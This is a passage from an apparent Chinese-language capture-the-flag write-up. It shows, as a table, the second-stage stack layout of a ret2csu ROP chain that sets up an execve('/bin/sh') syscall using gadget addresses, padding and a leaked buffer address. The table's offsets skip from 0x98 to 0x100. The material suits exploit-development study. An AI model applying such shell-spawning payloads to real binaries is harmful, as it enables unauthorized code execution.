 <img src="../assets/img/old_imgs/image-20231227185656124.png" alt="image-20231227185656124" style="zoom:67%;" />

泄露栈地址后第二次栈布局如下

|       | rbp  |            |       |                    |                                |
| :---: | :--: | :--------: | :---: | :----------------: | :----------------------------: |
| 0x10  |      |  padding   |       |                    | 开头为b"/bin/sh\x00"=>buf_addr |
| 0x18  |      |            |  ret  | 0x000000000040059A |            csu_end             |
| 0x20  |      |     0      |  rbx  |                    |                                |
| 0x28  |      |     1      |  rbp  |                    |                                |
| 0x30  |      |            |  r12  |    bufaddr+0x10    |           call的参数           |
| 0x38  |      |     0      |  r13  |                    |             => rdx             |
| 0x40  |      |     0      |  r14  |                    |             => rsi             |
| 0x48  |      |     0      |  r15  |                    |             => edi             |
| 0x50  |      |            | retn  | 0x0000000000400580 |           2csu_font            |
| 0x58  |      | 0xdeadbeef | rsp,8 |                    |                                |
| 0x60  | rsp  | 0xdeadbeef |  rbx  |                    |                                |
| 0x68  |      | 0xdeadbeef |  rbp  |                    |                                |
| 0x70  |      | 0xdeadbeef |  r12  |                    |                                |
| 0x78  |      | 0xdeadbeef |  r13  |                    |                                |
| 0x80  |      | 0xdeadbeef |  r14  |                    |                                |
| 0x88  |      | 0xdeadbeef |  r15  |                    |                                |
| 0x90  |      |            |  ret  | 0x00000000004004E2 |           rax = 0x3B           |
| 0x98  |      |            | retn  | 0x00000000004005a3 |          pop_rdi_addr          |
| 0x100 |      |            |  ret  | 0x0000000000400517 |            syscall             |
